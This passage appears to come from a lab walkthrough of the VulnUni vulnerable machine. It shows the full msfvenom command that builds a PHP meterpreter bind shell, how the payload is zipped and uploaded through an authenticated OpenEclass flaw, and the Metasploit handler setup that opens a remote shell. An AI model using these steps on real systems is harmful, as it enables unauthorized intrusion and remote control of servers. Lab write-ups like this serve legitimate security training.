 ![](https://i0.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-08-at-10.25.25-PM-1024x532.png?resize=768%2C399&ssl=1)

Now that I obtained admin credentials from sqlmap, I logged into the application as the administrator. Once again, the http request was being resolved to vulnuni.local. To actually log into the application, I edited the raw request in burp-suite as shown below. After hitting send, I selected the Render” tab on the response, then right clicked and selected to open up in browser.

![](https://i1.wp.com/www.babbagehall.org/wp-content/uploads/2020/05/Screen-Shot-2020-05-08-at-11.40.59-PM-1024x572.png?resize=768%2C429&ssl=1)

Next, I navigated over to the other exploit identified earlier in the exploit-db. This exploit titled “GUnet OpenEclass 1.7.3 E-learning platform – ‘month’ SQL Injection” enables authenticated admins to upload reverse php shell files. To exploit this vulnerability, I used msfvenom to create a php meterpreter bind shell on port 4448.

```bash
root@kali$ msfvenom -p php/meterpreter/bind_tcp LHOST=192.168.8.130 LPORT=4448 R > bind-meterpreter.php
```

```text
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1338 bytes
```

Before the exploit could be uploaded to the application, it needed to be zipped and compressed. Once zipped, I uploaded it to the vulnuni webserver.

```text
root@kali$ zip bind-meterpreter bind-meterpreter.php 
  adding: bind-meterpreter.php (deflated 62%)
```

## Target Infiltration

With the exploit ready, I started a metasploit session and opened a multi/handler to connect to the bind shell.

```text
root@kali$ msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.168.8.130
LHOST => 192.168.8.130
msf5 exploit(multi/handler) > set RHOST 192.168.8.132
RHOST => 192.168.8.132
msf5 exploit(multi/handler) > set LPORT 4448
LPORT => 4448
msf5 exploit(multi/handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
```

I set the necessary LPORT, LHOST, RHOST, and payload options. Before I launched the handler, I browsed the payload on the target website to initiate the bind shell. Once the payload loaded, I ran the handler and received the shell.
